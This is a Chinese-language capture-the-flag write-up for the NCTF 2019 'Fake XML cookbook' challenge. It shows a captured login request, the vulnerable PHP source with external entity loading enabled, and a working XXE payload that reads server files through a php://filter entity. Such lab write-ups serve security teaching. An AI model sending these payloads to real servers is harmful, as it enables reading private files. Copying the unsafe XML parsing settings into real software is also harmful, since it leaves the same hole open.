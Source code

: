 # NCTF 2019

## Fake XML cookbook

> *2021/08/02*

### 题目

进去之后是一个登录页面

![nctf20191](img/nctf2019/nctf20191.png)

登陆一下截个包

```http
POST /doLogin.php HTTP/1.1
Host: bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn
Content-Length: 59
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn
Referer: http://bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

<user><username>bme</username><password>1</password></user>
```

上传的是xml文件，先试试简单的**XXE**

![nctf20192](img/nctf2019/nctf20192.png)

有回显，再试试`/var/www/html/index.php`

![nctf20193](img/nctf2019/nctf20193.png)

报错了，试试这个页面，发现读不出来，可能是协议问题，换成伪协议

![nctf20194](img/nctf2019/nctf20194.png)

源代码如下

```php
<?php

/**
 * autor: c0ny1
 * date: 2018-2-7
 */

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try {
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);

    $username = $creds->username;
    $password = $creds->password;

    if ($username == $USERNAME && $password == $PASSWORD) {
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>", 1, $username);
    } else {
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>", 0, $username);
    }
} catch (Exception $e) {
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>", 3, $e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
```

拿账号密码登录，没啥用，没办法只能尝试读取一下`/flag`，居然读出来了

### payload

```http
POST /doLogin.php HTTP/1.1
Host: bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn
Content-Length: 154
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn
Referer: http://bfbb9c64-32cc-4fc7-9673-a07eb80e8941.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

<!DOCTYPE note [
    <!ENTITY b SYSTEM "php://filter/read/resource=/flag">
]>
<user>
    <username>&b;</username>
    <password>1</password>
</user>
```

